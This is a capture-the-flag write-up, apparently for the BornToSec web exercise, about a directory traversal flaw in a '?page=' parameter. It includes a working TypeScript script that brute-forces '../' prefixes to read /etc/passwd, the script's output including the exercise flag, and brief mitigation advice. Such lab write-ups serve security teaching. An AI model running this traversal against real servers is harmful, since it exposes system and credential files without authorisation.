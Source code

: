 # Directoy traversal breach

## How we found the breach

Sources:

[portswigger →](https://portswigger.net/web-security/file-path-traversal)

[owasp →](https://owasp.org/www-community/attacks/Path_Traversal#:~:text=Cookie%3A%20TEMPLATE%3D../../../../../../../../../etc/passwd)

[infosecinstitute →](https://resources.infosecinstitute.com/topic/php-lab-file-inclusion-attacks/)

From the website's home page, after pressing the `Sign In` button we're redirected to `http://IP/?page=signin`.

Depending on how the server handles the params parsing we could pass filename containg absolute paths to other file from the server file system.

A commonly hacked sensitive file is the `/etc/passwd` containing a trace of every computer registered user.

[More information on /etc/passwd →](https://www.ibm.com/docs/bg/aix/7.2?topic=passwords-using-etcpasswd-file)

### Testing the /etc/passwd access

By hitting `http://IP/?page=signin` the server returns a page displaying an alert modal containing the label `WTF`

```html
<script>alert('Wtf ?');</script><!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script 
```

We can see that the server append a script tag on the begining of the page.

We need to dig deeper, considering that the served page could be located recursively anywhere in folders.

The required file path coudld have infinite number of `..`, this is why we'll need to code a small tool.

### The script

The following script will download the returned page for any `../etc/passwd` combination until he found within the first script tag the string `flag`. 

Note: This script assumes that the server will send back the flag in the first script tag, and even more that the flag will be displayed using the `flag` appelation.

```ts
// @ts-check
import got from 'got'
import * as cheerio from 'cheerio'

const searchedFile = `/etc/passwd`
const baseUrl = `http://192.168.56.101/?page=`

async function traverseDirectory(query) {

    const url = baseUrl + query;
    const htmlPage = await got(url).text()

    const $ = cheerio.load(htmlPage)
    const firstScriptTag = $('script').first().text();

    if (firstScriptTag.match(/flag/)) {
        console.log(firstScriptTag)
        return
    } else {
        console.log(firstScriptTag)
        const newQuery = `../${query}`
        return traverseDirectory(newQuery)
    }
}

await traverseDirectory(searchedFile)
```
By running the script we get the below output:

```bash
node script.js 

alert('Wtf ?');
alert('Wtf ?');
alert('Wrong..');
alert('Nope..');
alert('Almost.');
alert('Still nope..');
alert('Nope..');
alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');
```

## How to exploit the breach

By being able to browse the server file system the hacker could steal any kind of sensitive information.
He could also be able to execute previously uploaded script inside the server file tree

[See file upload breach →](../../php_script_as_jpg_metadata_file_upload_breach/Ressources/Explanations.md)

## How to avoid the breach

To avoid this breach is kinda the same thing as for the [Redirect securyt breach](../../mocking_referer_and_user_agent_curl_breach/Ressources/Explanations.md). The server should not be passing user-supplied input to the filesystem.

Either if it's necessary the server should be validating the input, using a `whitelist` `escaping` the received path.